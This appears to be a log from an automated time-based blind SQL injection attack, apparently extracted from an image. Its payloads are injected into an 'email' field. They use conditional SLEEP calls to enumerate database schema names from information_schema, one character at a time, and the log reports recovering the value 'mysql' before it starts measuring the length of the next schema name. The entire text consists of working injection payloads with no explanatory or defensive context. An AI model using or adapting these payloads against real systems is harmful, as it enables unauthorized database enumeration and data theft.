 {email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=108,SLEEP(0.122010510204),SLEEP(0)) -- -}

Value: mysql



Determinating number of characters in the field: SCHEMA_NAME

{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1 )=1,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1 )=2,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1 )=3,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1 )=4,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1 )=5,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1 )=6,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1 )=7,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1 )=8,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1 )=9,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1 )=10,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1 )=11,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1 )=12,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1 )=13,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1 )=14,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1 )=15,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1 )=16,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1 )=17,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1 )=18,SLEEP(0.122010510204),SLEEP(0)) -- -}

